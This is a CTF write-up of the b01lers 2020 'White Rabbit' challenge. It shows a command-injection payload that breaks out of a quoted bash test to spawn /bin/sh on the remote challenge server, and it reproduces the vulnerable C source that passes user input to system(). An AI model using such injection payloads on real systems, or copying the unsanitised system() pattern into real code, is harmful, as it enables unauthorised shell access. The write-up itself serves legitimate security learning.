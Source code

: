 # b01lers CTF 2020: Pwn - White Rabbit (100 Points)

![img](https://github.com/FreezeLuiz/CTF-Writeups/blob/master/pwn/images/b01lersctf2020-white_rabbit/white-rabbit-desc.PNG "Challenge Description")

This challenge was fun, it relied on escaping of particular bash command sequence to get a shell on the remote server by executing `/bin/sh` 

We are only presented with the executable binary for local testing...


## Recon and Analysis

Running `checksec` from pwntools on the binary will bring us to a surprisingly secure binary...

```sh
kali@kali:~/Documents/b01lerctf/white_rabbit$ checksec ./whiterabbit
[*] '/home/kali/Documents/b01lerctf/white_rabbit/whiterabbit'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Only lets try some low hanging fruit and go for some `strings`...

```
...
[]A\A]A^A_
Follow the white rabbit.
Path to follow: 
flag
No printing the flag.
[ -f '%1$s' ] && cat '%1$s' || echo File does not exist
:*3$"
GCC: (Ubuntu 9.3.0-10ubuntu2) 9.3.0
.shstrtab
.interp
...
```

The interesting strings are `Follow the white rabbit` until the `[ -f '%1$s' ] && cat '%1$s' || echo File does not exist` which is a bash one liner script when you look at it.


Okay how about if we run the binary, lets interact with it...

```
kali@kali:~/Documents/b01lerctf/white_rabbit$ ./whiterabbit 
Follow the white rabbit.
Path to follow: asd
File does not exist
```

It is looking for a file, and I guess that it is checking if the file exists so it can display its content using `cat filename` what if we try to create a fake flag file locally and try to read the contents of it from the binary...

```
kali@kali:~/Documents/b01lerctf/white_rabbit$ echo "flag{fake_flag_to_the_rescue}" > flag
kali@kali:~/Documents/b01lerctf/white_rabbit$ ./whiterabbit 
Follow the white rabbit.
Path to follow: flag
No printing the flag.
```

There must be a check in the binary that checks if theres a flag in the input and if the string `flag` exists it will print `No printing the flag.`...

From what we know until now there is a bash one-liner script that has `&&` and `||` operators... To understand the bash one-liner better

```
[ -f '%1$s' ] --> Consider this an IF-Statement, our input is '%1$s' and this IF-Statement checks if the file exists.

&& cat '%1$s' --> If the file exists then cat its content.

|| echo File does not exist --> Else if it doens't exist then echo File does not exist.
```

## Exploit and reading the flag

We know that our input is between square brackets `[ 'INPUT' ]` we can escape that square brackets by closing the single quote and followed by closing the square bracket ` ']`

After escaping the square brackets we can specify a semi-colon `;` to end the original command and start a new one, which is `/bin/sh`, and ending with another semi-colon to specify the end of our `/bin/sh` command so it doesn't collide with the rest of the bash one-liner. 

```sh
'];/bin/sh;
```
Trying that payload in the remote server will give us a `/bin/sh` shell, so we can read the flag easily.

```sh
kali@kali:~/Documents/b01lerctf/white_rabbit$ nc chal.ctf.b01lers.com 1013
Follow the white rabbit.
Path to follow: ]';/bin/sh;
$ id
uid=1000(whiterabbit) gid=1000(whiterabbit) groups=1000(whiterabbit)
$ ls
Makefile
flag.txt
whiterabbit
whiterabbit.c
wrapper.sh
$ cat flag.txt
flag{Th3_BuNNy_wabbit_l3d_y0u_h3r3_4_a_reason}
```

## Alternative way: reading the source code.

There is an alternative way, when you find out that the program can read files in the directory, you could try to read the source file which is usually the same name as the binary, so for example the binary's name is `whiterabbit` so the source code might be `whiterabbit.c`

```c
kali@kali:~/Documents/b01lerctf/white_rabbit$ ./whiterabbit 
Follow the white rabbit.
Path to follow: whiterabbit.c
#include <stdio.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>


int main() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    printf("Follow the white rabbit.\n");
    printf("Path to follow: ");

    char buffer[64];

    scanf("%s", buffer);
    if(strstr(buffer, "flag") != NULL) {
        printf("No printing the flag.\n");
        exit(0);
    }
    
    char line[256];
    sprintf(line, "[ -f '%1$s' ] && cat '%1$s' || echo File does not exist", buffer);
    system(line);
}

```